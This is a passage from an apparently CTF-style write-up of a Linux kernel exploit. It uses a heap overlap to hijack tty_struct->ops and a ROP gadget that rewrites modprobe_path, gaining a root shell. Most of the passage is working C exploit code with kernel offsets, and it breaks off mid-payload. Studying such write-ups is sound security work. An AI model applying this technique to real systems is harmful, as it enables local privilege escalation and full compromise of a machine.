 Now allocating new `struct tty_struct`, it will overlap with `matrix2->data` because the latest freed 0x2e0-size chunk is `matrix2->data`.

Overwrite `.ops` of the new `struct tty_struct`, we can control RIP ( I will set `tty_struct->ops` = `matrix3->data` ).

```c
    ptmx_fd = open("/dev/ptmx",O_RDWR);
    if(ptmx_fd < 0)
        errExit("Open ptmx");
    logInfo("pmtx = matrix2->data");


    //Preparing payload
    int _ = open("/dev/ptmx",O_RDWR);
    if(_ < 0)
        errExit("open ptmx");
    info3.rows = 0x2e0;
    close(_);
    if(set_info(fd3,&info3))
        errExit("set_info 3");
    uint64_t chunk_addr3 = 0;
    readMATRIX64(fd3,&chunk_addr3,0x38);
    chunk_addr3 -= 0x38;
    logInfo("Chunk3 @ %p",(void *)chunk_addr3);
    uint64_t _text = ptm_unix98_ops - 0x82fb40;
    uint64_t modprobe_path = _text + 0xa51ba0;
    
    //rop
    uint64_t rop = _text+0x2dd74f; // xor eax,eax ; mov qword ptr [rdx], rcx ; ret
    writeMATRIX64(fd4,&rop,offsetof(struct tty_operations,ioctl));
    writeMATRIX64(fd1,&chunk_addr3,0x18);
```

By using `ROPgadget`, I see a useful gadget ( I don't know why `ROPgadget` is different from `gdb` :) ) :  

![image](https://github.com/robbert1978/robbert1978.github.io.old/assets/31349426/844402d0-7178-4c37-8cf2-36ecaa117cbf)
![image](https://github.com/robbert1978/robbert1978.github.io.old/assets/31349426/b0cd2c11-dc2f-4d55-8f12-e542265007c0)
![image](https://github.com/robbert1978/robbert1978.github.io.old/assets/31349426/32c349f7-07ed-4540-acf0-6cd53600d16c)


So, i will set `tty_struct->ops->ioctl` = `0xffffffff811571d9`.

Finally, using that gadget to overwrite `modprobe_path` to `/home/user/vjp` and get root shell :) :

```c
    uint64_t _text = ptm_unix98_ops - 0x82fb40;
    uint64_t modprobe_path = _text + 0xa51ba0;
    
    //rop
    uint64_t rop = _text+0x2dd74f; // xor eax,eax ; mov qword ptr [rdx], rcx ; ret
    writeMATRIX64(fd4,&rop,offsetof(struct tty_operations,ioctl));
    writeMATRIX64(fd1,&chunk_addr3,0x18);

    //Change /sbin/modprobe to /home/user/vjp
    char* inject = "/home/user/vjp";
    for(uint64_t i = 0 ; i < strlen(inject)/4+1; ++i){
        ioctl(ptmx_fd,*(uint32_t *)(inject+4*i),modprobe_path+4*i);
    }

    int vjpfd = open("/home/user/vjp",O_CREAT | O_RDWR);
    if(vjpfd < 0)
        errExit("open /home/user/vjp");
    dprintf(vjpfd,
        "#!/bin/sh\n"
```